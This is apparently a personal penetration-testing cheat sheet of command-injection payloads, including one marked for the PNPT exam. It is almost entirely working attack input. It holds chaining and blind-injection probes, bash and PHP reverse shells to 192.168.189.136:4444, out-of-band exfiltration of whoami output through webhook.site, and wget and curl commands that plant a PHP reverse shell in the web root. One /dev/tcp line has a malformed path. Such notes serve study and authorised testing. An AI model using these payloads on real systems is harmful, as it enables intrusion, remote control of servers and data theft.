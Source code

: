 # Command Injection

Basic command chaining

```bash
; ls -la
```

Using logic operators

```bash
&& ls -la
```

Commenting out the rest of a command

```bash
; ls -la #
;whoami;#
;/bin/bash -i >& /dev/tcp/192/192.168.189.136/4444>&1#
;php -r '$sock=fsockopen("192.168.189.136",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#

#for PNPT command injection
-200-321)^2))}';php -r '$sock=fsockopen("192.168.189.136",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#
```

Using a pipe for command chaining

```bash
| ls -la
```

Testing for blind injection

```bash
; sleep 10
; ping -c 10 127.0.0.1
& whoami > /var/www/html/whoami.txt &
```

Out-of-band testing

```bash
& nslookup webhook.site/<id>?`whoami` &
```

for blind command injection

```bash
#add ? on the end of webhook links
https://webhook.site/dc4d042f-4f0c-4819-a03a-8ea637627c80?`whoami`
https://stevesebastian.com \n wget http://192.168.189.136:9090/php-reverse-shell.php
https://stevesebastian.com && curl 192.168.189.136:9090/rev.php > /var/www/html/rev.php
```
